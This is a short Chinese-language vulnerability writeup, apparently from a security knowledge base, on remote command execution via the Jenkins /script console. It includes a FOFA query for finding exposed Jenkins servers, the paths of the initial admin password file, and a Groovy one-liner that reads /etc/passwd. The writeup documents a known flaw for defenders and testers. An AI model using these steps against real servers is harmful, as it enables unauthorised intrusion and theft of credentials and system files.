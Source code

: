 ```yaml
---
title: Jenkins script 远程命令执行漏洞
---
```


# Jenkins script 远程命令执行漏洞

## 漏洞描述

Jenkins 登录后访问 /script 页面，其中存在命令执行漏洞，当存在未授权的情况时导致服务器被入侵

## 漏洞影响

<a-checkbox checked>Jenkins</a-checkbox></br>

## 网络测绘

<a-checkbox checked>
<a-button href="https://fofa.info/result?qbase64=YXBwPSJKZW5raW5zIg%3D%3D">app="Jenkins"</a-button>
</a-checkbox>

## 漏洞复现

账号密码存在于：

```bash
Linux: /var/lib/jenkins/secrets/initialAdminPassword
Windows: C:\Users\RabbitMask\.jenkins\secrets\initialAdminPassword
```

登录后台，或在未授权的情况下访问

```bash
http://xxx.xxx.xxx.xxx/script
```

在脚本命命令模块执行系统命令

```bash
println 'cat /etc/passwd'.execute().text
```

![image.png](../../../.vuepress/public/img/1629510961976-6518a8a9-cd7d-46b0-9bc5-67c07a1f9d7f.png)